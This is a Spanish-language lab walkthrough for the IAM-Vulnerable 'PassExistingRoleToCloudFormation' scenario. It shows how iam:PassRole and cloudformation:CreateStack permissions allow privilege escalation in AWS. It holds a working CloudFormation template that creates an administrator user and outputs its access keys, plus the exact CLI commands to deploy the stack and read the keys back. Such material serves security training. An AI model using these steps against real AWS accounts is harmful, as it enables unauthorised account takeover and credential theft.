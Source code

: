 ```yaml
---
description: 'Lab: IAM-VULNERABLE'
---
```


# PassExistingRoleToCloudFormation

Un atacante con los permisos de <mark style="color:green;">**iam:PassRole**</mark> y <mark style="color:green;">**cloudformation:CreateStack**</mark> podría aumentar sus privilegios mediante la creación de una plantilla de CloudFormation que realizará acciones y creará recursos utilizando los permisos del rol que se pasó al crear una pila de CloudFormation

{% embed url="https://github.com/BishopFox/iam-vulnerable#supported-privilege-escalation-paths" %}
Lab: IAM - Vulnerable | Escenario: privesc20
{% endembed %}

### Configuración inicial

Usuario del laboratorio: privesc20-PassExistingRoleToCloudFormation-user Con las siguientes políticas

<figure><img src="../../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Y configurar las llaves de acceso con AWS CLI\


<figure><img src="../../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### Explotación

En este escenario, tenemos que aprovechar del privilegio de <mark style="color:green;">**cloudformation:CreateStack**</mark> para crear un stack que tendrá lo necesario para escalar privilegios. Posteriormente, utilizaremos el permiso <mark style="color:green;">**cloudformation:DescribeStacks**</mark> para visualizar información relacionada al stack malicioso.&#x20;

No hay una serie de pasos específicos para escalar privilegios mediante el uso de CloudFormation. Ya que el atacante puede indicarle a CloudFormation que active cualquier recurso de AWS. En pocas palabras, se puede utilizar Cloudformation para escalar privilegios de diversas maneras como, por ejemplo, creando un nuevo usuario con permisos de administrador como se usa en el ejemplo a continuación.

Para este ejercicio se requiere de una plantilla para crear un usuario con privilegios de administrador:

{% code title="IAMCreateUserTemplate.json" overflow="wrap" %}
```json
{
  "Resources": {
    "HackedUser": {
      "Type": "AWS::IAM::User"
    },
    "AdminPolicy": {
      "Type": "AWS::IAM::ManagedPolicy",
      "Properties": {
        "Description" : "This policy allows all actions on all resources.",
        "PolicyDocument": {
          "Version": "2012-10-17",
          "Statement": [
            {
              "Effect": "Allow",
              "Action": [
                "*"
              ],
              "Resource": "*"
            }
          ]
        },
        "Users": [{
          "Ref": "HackedUser"
        }]
      }
    },
    "MyUserKeys": {
      "Type": "AWS::IAM::AccessKey",
      "Properties": {
        "UserName": {
          "Ref": "HackedUser"
        }
      }
    }
  },
  "Outputs": {
    "AccessKey": {
      "Value": {
        "Ref": "MyUserKeys"
      },
      "Description": "Access Key ID of Admin User"
    },
    "SecretKey": {
      "Value": {
        "Fn::GetAtt": [
          "MyUserKeys",
          "SecretAccessKey"
        ]
      },
      "Description": "Secret Key of Admin User"
    }
  }
}

```
{% endcode %}

Despues usando el comomando cloudformation create-stack se crea un stack con el parámetro --role para hace ruso de PassRole al servicio.

{% code overflow="wrap" %}
```
aws cloudformation create-stack --stack-name privesc --template-body file:///home/user/IAMCreateUserTemplate.json --role arn:aws:iam::ID_account:role/privesc-high-priv-service-role --capabilities CAPABILITY_IAM --profile privesc20
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

En la evidencia previa, podemos apreciar el valor del StackId que fue retornado después de ejecutar el comando para crear el stack malicioso. Ahora que hemos creado nuestro stack malicioso, vamos aprovechar nuestro otro privilegio de cloudformation:DescribeStacks para visualizar el outputkey y posteriormente autenticarnos con estas credenciales.

{% code overflow="wrap" %}
```
aws cloudformation describe-stacks --stack-name arn:aws:cloudformation:us-east-1:ID_Account:stack/privesc --profile privesc20
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (60) (1).png" alt=""><figcaption></figcaption></figure>

En la imagen se muestra la correcta creación del stack junto con las credenciales de acceso del usuario admin creado. se procede a utilizar esas llaves de acceso

<figure><img src="../../../../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

Usando estas credenciales se listan las capacidades del usuario creado

<figure><img src="../../../../.gitbook/assets/image (59) (1).png" alt=""><figcaption></figcaption></figure>

Como se observa, el usuario HackedUser, tiene políticas de full administrador, habiendo comprometido y escalado privilegios de manera correcta.




